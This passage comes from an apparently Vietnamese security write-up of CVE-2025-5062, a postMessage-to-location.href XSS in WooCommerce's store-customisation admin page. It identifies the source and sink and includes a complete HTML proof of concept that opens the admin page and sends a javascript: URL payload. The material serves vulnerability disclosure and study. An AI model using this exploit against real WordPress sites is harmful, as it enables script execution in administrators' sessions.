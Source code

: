 👉 `alert()` được kích hoạt, sử dụng debug trong trình duyệt để xem `5292.js` được tải trong trình duyệt

![5292.js từ debug của browser](assets/img/posts/2025-10-03-CVE-2025-5062/debug1.png)
_5292.js từ debug của browser_

### Sources & Sinks

* **Source**: `event.data` từ `window.postMessage` (cụ thể `event.data.url`)
* **Sink**: `window.location.href = event.data.url` 

---

## Exploit
### Proof of Concept (PoC)

- Tạo trang web với mã nguồn sau:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <button id="openPopup">Open Popup</button>

    <script>
        let popup;

        document.getElementById("openPopup").addEventListener("click", () => {
            // Mở popup
            popup = window.open(
                "http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store", 
                "popupWindow",
                "width=400,height=300"
            );

            // Chờ popup load xong
            const interval = setInterval(() => {
                if (popup && !popup.closed) {
                    // Gửi message
                    popup.postMessage({ type: 'navigate', url: 'javascript:alert("phu0c ph4m")' }, '*');
                    clearInterval(interval);
                }
            }, 5000);
        });
    </script>
</body>

</html>
```
